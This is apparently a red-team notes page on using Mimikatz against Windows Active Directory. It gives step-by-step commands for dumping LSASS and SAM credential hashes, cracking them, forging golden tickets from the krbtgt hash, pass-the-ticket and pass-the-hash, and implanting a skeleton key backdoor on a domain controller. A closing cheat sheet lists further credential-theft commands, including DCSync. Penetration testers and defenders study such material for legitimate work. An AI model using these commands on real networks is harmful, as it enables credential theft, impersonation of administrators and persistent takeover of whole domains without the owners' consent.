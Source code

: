 # MimiKatz

_Used for dumping user credentials inside of a active directory network_

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

**Summary**

* [Dumping Hashes](broken-reference/)
* [Golden tickets attack](broken-reference/)
* [Silver Ticket](broken-reference/)
* [Pass the ticket](broken-reference/)
* [Kerberos backdoors](broken-reference/)

## Dumping hashes

`cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

`privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

`lsadump::lsa /patch` Dump those hashes!

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Crack those hashes w/ hashcat

`hashcat -m 1000 <hash> rockyou.txt`

## Golden Tickets Attack

We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

`cd downloads && mimikatz.exe`

`privilege::debug` ensure this outputs \[privilege "20" ok]

`lsadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### Create golden ticket

`kerberos::golden /user: /domain: /sid: /krbtgt: /id:`

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Access other machines with golden ticket

`misc::cmd` - This will open a new command prompt with elevated privileges to all machines

Access other Machines! - You will now have another command prompt with access to all other machines on the network

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Silver Ticket

If a password of a service account is stolen, it can be used to impersonate a user

## Pass the Ticket

Pass the ticket works by dumping the TGT from the LSASS memory of the machine.

`cd Downloads` - navigate to the directory mimikatz is in

`mimikatz.exe` - run mimikatz

`privilege::debug` - Ensure this outputs \[output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

`sekurlsa::tickets /export` - this will export all of the .kirbi tickets into the directory that you are currently in

At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Take the admin one

Now that we have the ticket, we can perform a pass the ticket attack `kerberos::ptt <ticket>` - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket



`klist` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.

You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.

## Kerberos Backdoors

### Skeleton Key

The skeleton key works by abusing the AS-REQ encrypted timestamps, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

`cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz

`privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access

**Installing Skeleton Key**

`misc::skeleton`

**Accessing the forest** Example : `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

`dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

## Commands - CheatSheet

```bash
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```
